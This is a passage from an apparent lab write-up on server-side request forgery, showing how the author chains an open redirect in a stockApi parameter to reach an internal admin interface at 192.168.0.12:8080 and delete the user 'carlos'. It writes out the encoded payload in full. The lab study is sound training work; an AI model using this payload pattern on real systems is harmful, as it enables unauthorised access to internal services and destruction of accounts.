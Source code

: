 ![image](https://github.com/user-attachments/assets/0c8582ef-1a14-4f7a-8d4a-312adfeafbd6)


#### 3.3. **Success: Admin Interface Accessed**

- This returned a `200 OK` response, along with:
```

/delete?username=carlos

```


- I appended the delete endpoint to the stockApi:
```

/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos

```
- Sent the request, and the user `carlos` was deleted.

![image](https://github.com/user-attachments/assets/6c1e16a5-4aff-4da7-bd96-06b716e5ce12)

![image](https://github.com/user-attachments/assets/4caa2ba5-e276-46e8-92ea-b9282c961a49)




---


---

